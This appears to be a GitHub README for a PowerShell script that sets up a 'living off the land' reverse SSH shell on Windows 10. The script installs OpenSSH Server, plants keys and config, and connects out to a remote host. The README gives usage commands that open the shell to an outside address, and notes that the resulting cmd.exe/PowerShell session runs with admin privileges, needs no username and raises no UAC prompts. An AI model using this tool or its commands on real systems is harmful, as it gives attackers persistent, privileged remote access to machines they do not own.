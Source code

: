# lol-reverseSSHell.ps1
Living Off the LAN Reverse Shell over SSH

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It utilizes OpenSSH Server to forward a CMD.exe shell. If OpenSSH Server is missing from the Windows 10 host, it will install it via WindowsCapability / DISM. ( * If OpenSSH server is missing, the script will ask to install it by downloading OpenSSH Server from Microsoft.) Then the script will copy the sshd_config file, ssh private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo's keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell.exe:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Windows vs Unix Reverse SSH Shells, and the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown Usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate to a shell when using keypair authentication. A simple call to localhost and port will connect to a shell under the context of the user that initiated the reverse ssh connection. 
  
  --- Windows Example --- ssh localhost -p `<localport>`  
  --- Unix Example --------- ssh user123@localhost -p `<localport>` 
   
* Admin Privleges - Because the shell is ran using admin privleges, and most Windows users run as privleged users, the shell will have admin privleges without ever needing to know the user's name or admin password. After a shell has been initiated, there are no password prompts or UAC alerts to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permissions issues.  

